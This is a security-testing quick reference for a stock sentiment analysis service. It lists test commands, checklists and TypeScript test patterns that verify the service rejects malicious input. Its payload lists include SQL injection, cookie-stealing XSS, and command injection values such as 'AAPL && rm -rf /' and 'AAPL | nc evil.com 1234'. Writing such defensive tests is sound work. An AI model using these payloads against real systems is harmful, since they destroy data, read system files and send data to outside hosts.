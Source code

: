 # VFR Security Testing Quick Reference

## Test Execution Commands

```bash
# Run all SentimentAnalysisService security tests
npm test -- SentimentAnalysisService.security.test.ts

# Run specific OWASP category tests
npm test -- --testNamePattern="OWASP A03: Injection"

# Run with increased memory for security tests
npm test -- SentimentAnalysisService.security.test.ts --maxWorkers=1

# Generate security test coverage
npm run test:coverage -- --testPathPattern=security
```

## Key Security Validation Points

### Input Sanitization Checklist
- [ ] SQL injection prevention (`'; DROP TABLE users; --`)
- [ ] XSS prevention (`<script>alert("XSS")</script>`)
- [ ] Command injection prevention (`; cat /etc/passwd`)
- [ ] Path traversal prevention (`../../../etc/passwd`)
- [ ] NoSQL injection prevention (`{"$ne": null}`)

### API Key Security Checklist
- [ ] No API keys in console output
- [ ] No API keys in error messages
- [ ] No API keys in cache data
- [ ] No API keys in response data
- [ ] Production error message sanitization

### Rate Limiting Validation
- [ ] Minimum delays enforced between requests
- [ ] Concurrent request handling
- [ ] Rate limit state persistence
- [ ] Circuit breaker functionality

## Critical Security Test Patterns

### Console Output Monitoring
```typescript
// Capture and validate console output for sensitive data
const originalConsoleError = console.error
const capturedLogs: string[] = []

console.error = (...args: any[]) => {
  capturedLogs.push(args.join(' '))
}

try {
  // Test execution
  await sentimentService.analyzeStockSentimentImpact(maliciousInput, 'Tech', 0.75)

  // Validate no sensitive data in logs
  const allLogs = capturedLogs.join(' ')
  expect(allLogs).not.toContain('api_key')
  expect(allLogs).not.toMatch(/[a-f0-9]{32}/) // NewsAPI key pattern
} finally {
  console.error = originalConsoleError
}
```

### Injection Attack Testing
```typescript
// Comprehensive injection payload testing
const injectionPayloads = [
  "'; DROP TABLE users; --",           // SQL injection
  '<script>alert("XSS")</script>',     // XSS
  'AAPL; cat /etc/passwd',             // Command injection
  '../../../etc/passwd',               // Path traversal
  '{"$ne": null}'                      // NoSQL injection
]

for (const payload of injectionPayloads) {
  const result = await sentimentService.analyzeStockSentimentImpact(payload, 'Tech', 0.75)
  expect(result).toBeNull() // Should reject all malicious inputs
}
```

### Security State Validation
```typescript
// Monitor security state throughout testing
const initialState = SecurityValidator.getSecurityStatus()
// ... execute tests ...
const finalState = SecurityValidator.getSecurityStatus()
expect(typeof finalState).toBe('object')
expect(finalState.totalRequests).toBeGreaterThan(initialState.totalRequests)
```

## Test Data Sets

### Legitimate Stock Symbols
```typescript
const legitimateSymbols = [
  'AAPL', 'MSFT', 'GOOGL', 'AMZN', 'TSLA', 'META', 'NFLX'
]
```

### Malicious Input Patterns
```typescript
const sqlInjection = [
  "'; DROP TABLE sentiment_data; --",
  "' UNION SELECT api_key FROM config; --",
  "'; DELETE FROM cache WHERE 1=1; --"
]

const xssPayloads = [
  '<script>alert("XSS")</script>',
  '<img src=x onerror=alert(document.cookie)>',
  '<iframe src="javascript:alert(1)"></iframe>'
]

const commandInjection = [
  'AAPL; cat /etc/passwd',
  'AAPL && rm -rf /',
  'AAPL | nc evil.com 1234'
]
```

## Security Test Timing

### Rate Limiting Tests
```typescript
const startTime = Date.now()
// Execute multiple requests
const totalTime = Date.now() - startTime
expect(totalTime).toBeGreaterThan(200) // Minimum delay enforced
```

### Timeout Security
```typescript
// Test with very short timeout to simulate attacks
const timeoutAPI = new NewsAPI(process.env.NEWSAPI_KEY, 50, false)
const result = await timeoutAPI.getNewsSentiment('AAPL', '1d')
// Should timeout quickly without hanging
```

## Environment-Specific Testing

### Development Mode
```typescript
process.env.NODE_ENV = 'development'
// Detailed error messages allowed in dev
```

### Production Mode
```typescript
const originalNodeEnv = process.env.NODE_ENV
process.env.NODE_ENV = 'production'
try {
  // Test production error sanitization
} finally {
  process.env.NODE_ENV = originalNodeEnv
}
```

## Security Test Maintenance

### Monthly Security Updates
1. Update injection payload patterns
2. Review OWASP Top 10 changes
3. Add new attack vectors from threat intelligence
4. Validate test coverage remains comprehensive

### Security Test Checklist
- [ ] All OWASP Top 10 categories covered
- [ ] Real data used (no mocks)
- [ ] API key protection validated
- [ ] Rate limiting enforced
- [ ] Error message sanitization working
- [ ] Cache security verified
- [ ] Input validation comprehensive
- [ ] Output sanitization complete

## Common Security Test Failures

### API Key Exposure
**Symptom**: Test fails with API key visible in logs
**Solution**: Enhance SecurityValidator.sanitizeErrorMessage()

### Rate Limiting Bypass
**Symptom**: Requests complete too quickly
**Solution**: Check rate limiting implementation in NewsAPI

### Injection Success
**Symptom**: Malicious input not rejected
**Solution**: Enhance input validation in SecurityValidator

### Cache Poisoning
**Symptom**: Sensitive data found in cache
**Solution**: Add sanitization before cache storage

## Security Testing Best Practices

1. **Always Use Real Data**: Never mock security-sensitive components
2. **Test Edge Cases**: Include boundary conditions and unusual inputs
3. **Monitor All Output**: Capture console, error, and response data
4. **Validate State Changes**: Ensure security state remains stable
5. **Test Under Load**: Validate security during concurrent requests
6. **Document Failures**: Record and analyze all security test failures
